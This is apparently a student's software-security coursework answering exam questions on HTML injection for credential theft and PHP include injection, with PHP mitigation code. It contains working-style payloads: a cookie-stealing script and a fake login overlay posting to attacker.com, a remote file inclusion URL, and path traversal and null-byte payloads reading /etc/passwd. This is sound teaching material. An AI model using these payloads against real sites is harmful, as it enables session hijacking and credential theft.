 # Assessment 2

**Author:** Waldemar Schwab  
**Created on:** 2024-05-12
**Fernuniversität Hagen** Software-Security

## Describe how an HTML-attack could be abused to gain access to credentials. (25)

A HTML attack can be realized on different ways. And always consists of different type (stored HTML Injection or Reflected HTML injection) and attack vecors. 
Vecots:

- Stored HTML Injection: Persistant attacks like entries in a Comment Section or in a blog.
- Reflected HTML injectio: URL-Injection when Parameters are not escaped the right way
  - these URLs can be sent via E-Mail or other communication tools
  - spread via forums and other (social) platforms 

Ways to steal credentials:

- Inject JS-Code and Replace original Login Form
  - Inject new Form fields
    - Hide original Form Field
    - Place your own Imput-Elements on site and replace the action path with somethin useful to you
- Inject JS-Code to exfiltrate original
  - before committing the Login Form intercept the login Progress and send the data to your own server.
- Skip the login-part and steal the Session-Cookie right away:
  - Use someting like `<script>var img=new Image();img.src='http://attacker.com/stealcookie.php?cookie='+document.cookie;</script>`
- Inject HTML and CSS code without JS
  - Hide original form fields via CSS (inline or siyle attribute)
    - add your own Input-Elements right via html
    - or just add a huge Login-Banner over the page: `<div style="position:absolute;top:0;left:0;width:100%;height:100%;z-index:1000;"><form action='http://attacker.com/capture_credentials.php' method='post'><input type='text' name='username'><input type='password' name='password'><input type='submit' value='Login'></form></div>`

## Explain how PHP-code-injections via include / require could be achieved - and prevented. (25)

There are different ways to manipulate the parameter of `include` or `require`. Multiple methods of exploitation are possible.

### Manipulation:

- When `include('content/' . $_GET['page'] . '.php');` is used, you can simply manipulate the URL and include files other than expected.
  - **Exploitation**: `http://example.com/?page=http://attacker.com/malicious`
    - A prepared file on a web server has to be provided by the attacker.
    - After successful infiltration, PHP code execution is possible and might give access to other sensitive files, e.g., database connection information, `/etc/passwd`.
    - This attack requires a PHP configuration setting like this: `allow_url_include = On`.
  - **Mitigation**:
    - Simply turn off the setting: `allow_url_include = Off`.

  - Let's continue with the last example and assume that `allow_url_include = Off` is set.

    - **Exploitation**: `http://example.com/?page=admin`
      - You might still be able to browse into other files: e.g., there might be an `admin.php` waiting for us, that could be accessed or database configuration might be stored somewhere in a PHP file.
      - You might need to extend this attack and upload your own file via another exploit, like unchecked file extensions on a picture-upload page on the same server.
      - **Mitigation**: Add input validation for expected values in `$_GET['page']`.

      ```php
      $allowedPages = ['home', 'about', 'contact']; // List of allowed pages
      $page = $_GET['page'] ?? 'default'; // Default page if none specified

      if (in_array($page, $allowedPages)) { ... }
      ```

      Moreover, you should add absolute paths instead of relative paths to block traversal movement and add error handling to prevent the next point I will mention:

      ```php
      define('BASE_PATH', realpath('content/')); // Ensure the base path is absolute and normalized
      $page = $_GET['page'] ?? 'default';
      if (in_array($page, $allowedPages)) {
          $filePath = BASE_PATH . '/' . $page . '.php';
          if (file_exists($filePath)) {
              include($filePath);
          } else {
              include(BASE_PATH . '/error.php');
          }
      } else {
          include(BASE_PATH . '/error.php');
      }
      ```

  - Error messages can give information about internal structures and so support further attacks.
    - **Exploit**: Attacker tries invalid values and the system returns full paths and names. E.g., the script is hosted at a free hoster and the attacker creates a free account and includes his own scripts with file access rights set to magical 777. So he is able to access his own scripts via 
    `http://example.com/?page=../../../attacker_user_on_freehost/haxx0r_file`
    - **Mitigation** Just like above.

  - Another exploit in very old versions was null byte injection: `http://example.com/?page=../../../etc/passwd%00`
    - **Exploitation**: Here, `%00` represents a null byte, which could effectively terminate the string at the desired location and potentially allow access to the `/etc/passwd` file. Modern PHP versions, however, are not susceptible to null byte injection.
    - **Mitigation**: Use supported and updated software versions.


## Discuss how PRNGs could put session-management at risk. (25)

## How would secure programming create session IDs? (25)

